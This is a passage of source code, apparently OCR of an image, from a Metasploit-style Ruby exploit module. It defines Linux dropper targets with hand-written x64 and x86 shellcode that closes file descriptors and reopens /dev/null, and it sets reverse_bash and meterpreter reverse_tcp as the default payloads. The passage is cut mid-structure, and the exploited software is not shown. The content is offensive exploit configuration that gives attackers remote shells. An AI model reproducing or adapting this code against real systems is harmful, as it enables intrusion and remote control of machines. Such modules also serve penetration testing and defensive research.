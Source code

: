                   'DefaultOptions' => {
                    'PAYLOAD' => 'cmd/unix/reverse_bash'
                  }
                }
              ],
              [
                'Linux (Dropper) x64',
                {
                  'Platform' => 'linux',
                  'Type' => :linux_dropper,
                  'Arch' => ARCH_X64,
                  'Payload' => {
                    'Prepend' => Metasm::Shellcode.assemble(Metasm::X64.new, <<-ASM).encode_string
                        push 4
                        pop  rdi
                      _close_fds_loop:
                        dec rdi
                        push 3
                        pop rax
                        syscall
                        test rdi, rdi
                        jnz _close_fds_loop

                        mov  rax, 0x000000000000006c
                        push rax
                        mov  rax, 0x6c756e2f7665642f
                        push rax
                        mov  rdi, rsp
                        xor  rsi, rsi

                        push 2
                        pop  rax
                        syscall

                        push 2
                        pop  rax
                        syscall

                        push 2
                        pop  rax
                        syscall
                    ASM
                  },
                  'DefaultOptions' => {
                    'PAYLOAD' => 'linux/x64/meterpreter/reverse_tcp',
                    'PrependFork' => true
                  }
                }
              ],
              [
                'Linux (Dropper) x86',
                {
                  'Platform' => 'linux',
                  'Type' => :linux_dropper,
                  'Arch' => ARCH_X86,
                  'Payload' => {
                    'Prepend' => Metasm::Shellcode.assemble(Metasm::X86.new, <<-ASM).encode_string
                        push 4
                        pop  edi
                      _close_fds_loop:
                        dec  edi
                        push 6
                        pop  eax
                        int  0x80
                        test edi, edi
